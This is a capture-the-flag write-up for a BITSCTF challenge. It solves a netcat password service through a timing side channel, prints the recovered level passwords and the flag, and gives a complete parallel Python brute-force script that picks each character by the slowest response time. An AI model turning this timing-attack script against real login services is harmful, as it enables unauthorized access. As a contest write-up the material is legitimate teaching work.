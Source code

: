 # Mogambro's uncertainity principle

Challenge description gives as follow

```MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.```

We are given only the netcat connection, so connecting we get this result

```
$ nc 20.244.33.146 4445
Enter password: h    
Incorrect password
Time taken:  9.888255534974642e-05
```

We are given an arbitary time taken value for a password character. After a lot of testing, wrote a script to bruteforce all ascii characters for the password. We are able to see that if the character at that position is given then the time taken value is the highest. So i wrote a script to bruteforce all characters and keep on adding them.

After you keep bruteforcing you will finally get the passwords and after level 5 you get the flag

```
nc 20.244.33.146 4445
Enter password: sloppytoppywithatwist
Congratulations! You have unlocked the door to level 2!
Enter password: gingerdangerhermoinegranger
Congratulations! You have unlocked the door to level 3!
Enter password: hickerydickerydockskibididobdobpop
Congratulations! You have unlocked the door to level 4!
Enter password: snickersnortsupersecureshortshakingsafarisadistic
Congratulations! You have unlocked the door to level 5!
Enter password: boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartpoop
Congratulations! You have unlocked all the doors. THe flag is BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}
```

Full script

```python
from pwn import context, remote
from multiprocessing import Process, Manager, Value
import ctypes

context.log_level = "ERROR"

# alphabets = "abcdefghijklmnopqrstuvwxyz1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ_"
alphabets = "abcdefghijklmnopqrstuvwxyz"


def runner(passwords, timeTakens, curPass, currentChar):
    r = remote("20.244.33.146", 4445)

    for p in passwords:
        # print(p)
        r.sendlineafter(b"Enter password: ", p)

    to_send = curPass.value + currentChar.encode()

    try:
        r.sendlineafter(b"Enter password: ", to_send)
    except EOFError:
        print("EOFError")
        return

    output = r.recvline().decode()
    # print(output)
    if "congrat" in output.lower():
        if "BITSCTF" in output:
            print("\n\nGOT FLAG:", output.lower())
            # exit() # exit () doesn't work if inside process

        print("\n\nCRACKED LEVEL", to_send)
        passwords.append(to_send)
        curPass.value = b""
        r.close()
        return

    p = r.recvline().decode().strip()
    # print(to_send, p)
    timeTakens[currentChar] = float(p.split("Time taken: ")[-1])

    r.close()


passwords_init = [
    b"sloppytoppywithatwist",
    b"gingerdangerhermoinegranger",
    b"hickerydickerydockskibididobdobpop",
    b"snickersnortsupersecureshortshakingsafarisadistic",
]

curPass_init = "boompopwhizzleskizzleraptrapmeowbarkhowlbuzzdrumburpfartp"
# curPass_init = ""

manager = Manager()
passwords = manager.list()

p_len = len(passwords_init)

for p in passwords_init:
    passwords.append(p)

curPass = Value(ctypes.c_char_p, curPass_init.encode())

while True:
    procs = []

    timeTakens = manager.dict()

    for alphabet in alphabets:
        proc = Process(target=runner, args=(passwords, timeTakens, curPass, alphabet))
        procs.append(proc)
        proc.start()

    for proc in procs:
        proc.join()

    # print(timeTakens)

    if len(passwords) == p_len:
        try:
            correct_letter = timeTakens.keys()[
                timeTakens.values().index(max(timeTakens.values()))
            ]
            # print(correct_letter)

            curPass.value += correct_letter.encode()
        except ValueError:
            print("got flag")
            exit()
    else:
        p_len = len(passwords)
        print(passwords)

    print(curPass.value)

    # break
```